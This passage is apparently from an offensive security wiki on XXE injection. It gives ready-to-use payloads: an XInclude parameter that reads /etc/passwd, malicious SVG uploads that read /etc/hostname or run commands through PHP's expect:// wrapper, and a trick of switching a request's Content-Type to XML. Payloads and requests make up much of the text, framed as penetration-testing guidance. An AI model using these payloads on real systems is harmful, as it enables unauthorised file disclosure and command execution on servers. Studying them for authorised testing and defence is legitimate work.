 ```markup
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### SVG - File Upload

[From here.](https://portswigger.net/web-security/xxe)

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to **upload images**, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the **image processing library that is being used might support SVG images**. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

```markup
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

You could also try to **execute commands** using the PHP "expect" wrapper:

```markup
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

**Note the first line of the read file or of the result of the execution will appear INSIDE the created image. So you need to be able to access the image SVG has created.**

### **PDF - File upload**

Read the following post to **learn how to exploit a XXE uploading a PDF** file:

{% page-ref page="file-upload/pdf-upload-xxe-and-cors-bypass.md" %}

### Content-Type: From x-www-urlencoded to XML

If a POST request accepts the data in XML format, you could try to exploit a XXE in that request. For example, if a normal request contains the following:

```markup
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```markup
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
